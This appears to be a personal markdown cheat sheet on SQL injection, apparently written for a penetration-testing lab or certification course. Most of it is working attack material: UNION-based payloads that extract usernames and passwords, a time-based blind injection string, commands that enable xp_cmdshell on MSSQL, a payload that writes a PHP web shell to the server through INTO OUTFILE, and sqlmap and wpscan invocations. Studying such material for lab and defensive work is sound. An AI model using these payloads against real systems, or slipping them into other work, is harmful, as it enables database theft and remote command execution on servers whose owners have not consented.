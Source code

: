 # SQL Entry point
- mysql ``` mysql -u root -p'root' -h 192.168.186.16 -P 3306```
- Interesting info

    ``` database(), user(), @@version
- mssql ``` impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth ```
    
    Get tables: ``` select * from {datatable}.information_schema.tables; ```

    ![alt text](image.png)

    example: ```table = offsec.dbo.users```

# Manual SQL exploit

## Union based payload
``` %' UNION SELECT database(), user(), @@version, null, null -- // ```

``` ' UNION SELECT null, username, password, description, null FROM users -- // ```

- Requires same number of columns & Usually first column union will be ignore (ID column)

## Blind SQL
- boolean/time-based checking

``` ' AND IF (1=1, sleep(3),'false') -- // ```
- test if something is exist : yes = do sleep 3 seconds

# SQL Shellcode excution
## Manual shell
- mssql shell

    ``` 
    EXECUTE sp_configure 'show advanced options', 1;

    EXECUTE sp_configure 'xp_cmdshell', 1;```

- mysql shell

    care about column number

    ```
    ' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
    ```

## Automated 
- BANNED
- mysql
    ``` sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user ```

## Wordpress

- Wordpress scan
``` wpscan ```

- Enum plugins & themes for vulns

- Possble to use hashcat reverse hash (Not suggest)

